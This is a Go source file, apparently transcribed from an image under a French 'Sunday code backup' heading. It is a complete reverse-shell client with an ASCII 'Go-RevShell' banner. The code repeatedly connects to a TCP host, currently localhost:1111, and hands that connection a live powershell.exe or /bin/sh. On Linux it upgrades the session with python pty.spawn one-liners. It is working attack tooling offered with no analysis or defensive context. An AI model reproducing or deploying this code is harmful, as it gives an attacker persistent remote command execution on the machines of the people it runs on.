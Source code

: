 # Sauvegarde du code du dimanche

    package main
    
    import (
    	"net"
    	"os/exec"
    	"runtime"
    	"strconv"
    	"strings"
    	"time"
    )
    
    const banner string = `
      ____                   ____                   ____    _              _   _
     / ___|   ___           |  _ \    ___  __   __ / ___|  | |__     ___  | | | |
    | |  _   / _ \   _____  | |_) |  / _ \ \ \ / / \___ \  | '_ \   / _ \ | | | |
    | |_| | | (_) | |_____| |  _ <  |  __/  \ V /   ___) | | | | | |  __/ | | | |
     \____|  \___/          |_| \_\  \___|   \_/   |____/  |_| |_|  \___| |_| |_|
    
    `
    
    var linuxPayloadsTTY = []string{`/usr/bin/env python -c 'import pty; pty.spawn("/bin/bash")'`, `/usr/bin/env python2.7 -c 'import pty;pty.        spawn("/bin/bash")'`, `/usr/bin/env python3 -c 'import pty; pty.spawn("/bin/bash")'`}
    
    func main() {
    	reverseShell("localhost", 1111)
    }
    
    func reverseShell(host string, port int) {
    	for {
    		connexion, err := net.Dial("tcp", host+":"+strconv.Itoa(port))
    		if err != nil {
    			time.Sleep(2 * time.Second)
    		} else {
    			connexion.Write([]byte(banner + "[+] Connected to " + connexion.LocalAddr().String() + "\nType \"exit\" and press enter to close     the shell properly or the process will die server side.\n"))
    			if runtime.GOOS == "windows" {
    				spawnShell(connexion, "powershell.exe")
    			} else {
    				spawnLinuxTTYShell(connexion, "/bin/sh")
    			}
    			connexion.Close()
    		}
    	}
    }
    
    func spawnShell(connexion net.Conn, shellProgram string, arguments ...string) {
    	shell := exec.Command(shellProgram, arguments...)
    	shell.Stdout, shell.Stderr, shell.Stdin = connexion, connexion, connexion
    	shell.Run()
    }
    
    func spawnLinuxTTYShell(connexion net.Conn, shellProgram string) {
    	payload := findLinuxPayload(connexion, shellProgram)
    	if payload != "" {
    		spawnShell(connexion, shellProgram, "-c", payload)
    	} else {
    		spawnShell(connexion, shellProgram)
    	}
    }
    
    func findLinuxPayload(connexion net.Conn, shellProgram string) string {
    	for _, payload := range linuxPayloadsTTY {
    		err := exec.Command(shellProgram, "-c", strings.Replace(payload, "/bin/bash", "/bin/bash -c exit 0", -1)).Run()
    		if err == nil {
    			return payload
    		}
    	}
    	return ""
    }
